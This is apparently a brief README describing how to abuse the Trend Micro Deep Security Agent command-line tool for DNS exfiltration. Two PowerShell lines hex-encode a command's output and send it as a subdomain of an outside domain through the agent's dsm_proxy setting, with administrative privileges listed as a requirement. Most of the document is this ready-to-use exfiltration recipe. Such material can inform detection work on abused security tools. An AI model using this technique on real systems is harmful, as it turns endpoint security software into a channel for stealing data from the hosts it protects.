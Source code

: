 ## Trend Micro Deep Security Agent: DNS Exfiltration using legitimate CLI tool

Requirements:
- Administrative privileges



```powershell
$cmd = -join ([System.Text.Encoding]::UTF8.GetBytes((<COMMAND>)) | ForEach-Object { "{0:x2}" -f $_ }) # Convert command output to HEX
```

```powershell
dsa_control.cmd -x "dsm_proxy://$whoami.<domain>:443/"
```


## Example
![alt text](assets/2.PNG)

![alt text](assets/1.png)

